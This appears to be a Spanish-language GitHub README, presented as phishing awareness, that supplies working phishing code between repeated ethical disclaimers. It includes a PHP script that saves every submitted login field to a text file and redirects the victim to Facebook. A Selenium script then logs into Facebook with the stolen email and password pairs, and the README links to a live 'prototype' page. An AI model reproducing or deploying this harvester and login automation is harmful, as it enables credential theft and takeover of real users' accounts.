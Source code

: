## Phishing y Automatización de Formularios
Este README proporciona información sobre el phishing y cómo el ejemplo anterior de automatización de formularios puede considerarse un ejemplo de phishing. El phishing es una práctica engañosa y potencialmente dañina que se utiliza para obtener información confidencial de manera fraudulenta.

## ¿Qué es el Phishing?
Phishing es una forma de ciberataque en la que un atacante se hace pasar por una entidad de confianza (como un banco, una red social o una empresa legítima) para engañar a las personas y obtener información confidencial, como contraseñas, números de tarjetas de crédito y otra información personal. El objetivo del phishing es obtener acceso no autorizado a cuentas, robar identidades o cometer otros tipos de fraude.

Los ataques de phishing a menudo implican el envío de correos electrónicos o la creación de sitios web falsos que se parecen mucho a los originales. Los estafadores utilizan tácticas de ingeniería social para engañar a las víctimas y hacer que divulguen información sensible.

## Automatización de Formularios y Phishing
El ejemplo de código anterior muestra cómo se puede utilizar la automatización de formularios con Selenium para ingresar credenciales en un formulario de inicio de sesión en una página web. Aunque el código es presentado aquí con fines educativos y éticos, es importante destacar que la misma técnica de automatización de formularios puede ser utilizada con fines maliciosos y considerarse una forma de phishing si se realiza sin el consentimiento y la autorización adecuados.

Algunas de las características comunes que pueden convertir la automatización de formularios en un acto de phishing incluyen:

** Engaño: ** El atacante puede engañar a las víctimas para que compartan sus credenciales al hacerles creer que están interactuando con un sitio web legítimo.

Recopilación de Datos Sensibles: La automatización de formularios puede utilizarse para recopilar datos confidenciales, como contraseñas, números de tarjeta de crédito o información personal, sin el consentimiento del usuario.

Suplantación de Identidad: Al utilizar la automatización de formularios, un atacante puede suplantar la identidad de una entidad de confianza para robar información.

** Nota Importante **
Este README se proporciona para crear conciencia sobre el phishing y destacar cómo la automatización de formularios puede considerarse una forma de phishing si se usa con intenciones maliciosas. Se enfatiza la importancia de realizar actividades de seguridad de manera ética y legal, y de respetar las políticas y leyes aplicables.

El phishing es ilegal y dañino. No debe ser utilizado con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables al realizar pruebas de seguridad en sistemas y sitios web.

Asegúrate de cumplir con todas las leyes y regulaciones aplicables y de respetar las políticas de seguridad del sitio web al realizar actividades de automatización de formularios.

# Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
Este còdigo almacena los datos de un formulario en un bloc de notas y redirige a facebook
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.
## Automatizar el inicio de sesiòn en facebook con contraseñas y usuarios almacenados en un bloc de notas
El código que proporcionaste es un ejemplo de cómo utilizar Selenium para automatizar el inicio de sesión en una página web utilizando contraseñas almacenadas en un archivo. El código realiza las siguientes acciones:

Configura el controlador de Selenium y abre el sitio web de Facebook.
Lee las credenciales desde un archivo de bloc de notas ("credenciales.txt").
Divide el archivo en bloques separados por líneas en blanco para procesar las credenciales de múltiples usuarios.
Para cada usuario en los bloques separados:
a. Divide cada bloque en líneas y crea un diccionario clave-valor para las credenciales.
b. Verifica si existen las claves 'email' y 'pass' en el diccionario.
c. Encuentra los elementos de usuario y contraseña en la página web.
d. Ingresa las credenciales en los campos correspondientes.
e. Envía el formulario de inicio de sesión.
f. Espera a que la página se cargue (puedes ajustar este tiempo).
g. Realiza cualquier acción adicional si es necesario.
Este código es útil para realizar pruebas o automatizar el proceso de inicio de sesión con múltiples cuentas. Sin embargo, ten en cuenta que su uso debe realizarse de manera ética, legal y en un entorno controlado donde tengas permiso para llevar a cabo pruebas de este tipo. Además, asegúrate de que el archivo de contraseñas se mantenga de manera segura y que las contraseñas se almacenen de forma encriptada y protegida.

```python
from selenium import webdriver
from selenium.webdriver.common.keys import Keys

# Configura el controlador de Selenium y el sitio web de destino
driver = webdriver.Chrome()
driver.get("https://www.facebook.com")

# Lee las credenciales desde el archivo de bloc de notas
with open("credenciales.txt", "r") as file:
    data = file.read()

# Divide el archivo en bloques separados por líneas en blanco
usuarios = data.split('\n\n')

for usuario in usuarios:
    # Divide cada bloque en líneas y crea un diccionario clave-valor
    credenciales = {}
    for line in usuario.split('\n'):
        key, value = line.strip().split('=')
        credenciales[key] = value

    # Verifica si existen las claves 'email' y 'pass' en el diccionario
    if 'email' in credenciales and 'pass' in credenciales:
        email = credenciales['email']
        password = credenciales['pass']

        # Encuentra los elementos de usuario y contraseña
        username_element = driver.find_element_by_id("email")
        password_element = driver.find_element_by_id("pass")

        # Ingresa las credenciales
        username_element.send_keys(email)
        password_element.send_keys(password)

        # Envía el formulario de inicio de sesión
        password_element.send_keys(Keys.RETURN)

        # Espera a que la página se cargue (puedes ajustar este tiempo)
        driver.implicitly_wait(10)

        # Realiza cualquier acción adicional aquí si es necesario

# Cierra el navegador
driver.close()

```
Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/
